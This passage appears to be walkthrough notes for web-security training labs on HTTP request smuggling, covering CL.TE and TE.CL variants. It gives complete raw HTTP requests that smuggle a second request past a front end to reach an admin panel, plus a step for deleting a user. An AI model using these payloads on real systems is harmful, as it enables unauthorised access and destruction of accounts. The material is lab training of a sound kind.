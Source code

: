 1. Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
2. Issue the following request twice:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

1. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
2. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

1. Observe that you can now access the admin panel.
2. Using the previous response as a reference, change the smuggled request URL to delete `carlos`:
   => change the URL to `/admin/delete?username=carlos`

#### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
1. Try to visit `/admin` and observe that the request is blocked.
2. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
3. Using Burp Repeater, issue the following request twice:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

